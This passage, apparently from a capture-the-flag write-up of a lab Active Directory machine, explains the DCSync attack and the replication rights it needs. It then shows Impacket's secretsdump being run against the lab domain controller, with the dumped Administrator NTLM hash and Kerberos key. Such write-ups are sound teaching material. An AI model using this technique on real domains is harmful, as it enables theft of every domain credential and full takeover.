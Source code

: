 Svc_loanmgr appears to have a few interesting permissions. Researching these permissions reveals that they are associated with a DCSync exploit.

## DCSync Attack

Many Active Directory (AD) infrastructure has multiple Domain Controllers. To maintain a consistent environment, you need a way to replicate AD objects for each DC. The replication is done through the DRSUAPI API.

In a DCSync attack, we impersonate a Domain Controller to replicate objects.

### Required Permissions

However, to perform a DCSync attack, the compromised account needs to have these replication permissions:

The “DS-Replication-Get-Changes” extended right
* CN: DS-Replication-Get-Changes
* GUID: 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2

The “Replicating Directory Changes All” extended right
* CN: DS-Replication-Get-Changes-All
* GUID: 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2

The “Replicating Directory Changes In Filtered Set” extended right (not always needed)
* CN: DS-Replication-Get-Changes-In-Filtered-Set
* GUID: 89e95b76-444d-4c62-991a-0facbeda640c

These are the precise permissions that the svc_loanmgr has. Hence, we can conduct a DCsync attack.

### Dumping Secrets

We can perform a DCsync attack remotely with Impacket's `secretsdump.py`.

`impacket-secretsdump -just-dc EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.10.10.175`

With the `-just-dc` flag, it tries to get both the NTLM hashes and Kerberos keys.

```
root@kali:~/htb/openadmin# impacket-secretsdump -just-dc EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.10.10.175
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
<SNIP>
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
<SNIP>
[*] Cleaning up...
```

Now that we have the hashes, we can use them to get SYSTEM access.
